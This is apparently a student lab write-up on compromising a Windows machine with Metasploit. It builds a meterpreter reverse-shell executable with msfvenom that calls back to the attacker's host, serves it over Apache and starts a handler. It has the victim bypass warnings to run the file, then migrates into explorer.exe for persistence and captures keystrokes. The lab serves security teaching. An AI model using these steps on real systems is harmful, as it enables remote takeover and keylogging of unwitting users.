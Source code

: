 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT
![image](https://github.com/user-attachments/assets/0e455703-e0ab-4506-bc3c-d8cd8d6f10d6)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT
![image](https://github.com/user-attachments/assets/b128229a-2a5a-4470-a0ee-668d76225c09)

opy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/c39330e6-98df-4d54-b570-7a864dc59237)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/2eca88d8-d02c-4580-a78e-c013c103e081)

Check the status of apache2

![image](https://github.com/user-attachments/assets/7e410c25-ee82-4cd8-9ee4-c8548ddc8a92)


Invoke msfconsole:

![image](https://github.com/user-attachments/assets/528a16d5-afeb-499e-ba2e-f6ac986f0708)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/user-attachments/assets/6f0c2629-c170-4646-ae71-033c2e2d8e42)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit
![image](https://github.com/user-attachments/assets/8b8c4c66-4e01-466a-ac64-53bf02f16428)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads. 

![image](https://github.com/user-attachments/assets/14b9b713-ea3f-4f15-b436-fca2928d3a1b)

Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/user-attachments/assets/c00ae111-163b-45d3-ba31-40c61ab4129f)

On kali give the command exploit
![image](https://github.com/user-attachments/assets/73f634ba-42d2-46a3-82eb-ac01f80cda61)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/9338ac5d-3d47-4b7a-8ae2-f790ffa2635f)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/user-attachments/assets/16afe477-6ef8-412c-8228-72f9c010f937)


Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/d4810f9a-273c-4c18-890b-22f05db5c7a9)


![image](https://github.com/user-attachments/assets/81d5c71b-04bc-41c6-be8f-14131c6ba3c7)

keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/dd8684dd-9383-4847-a29c-993fba4cdb4b)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
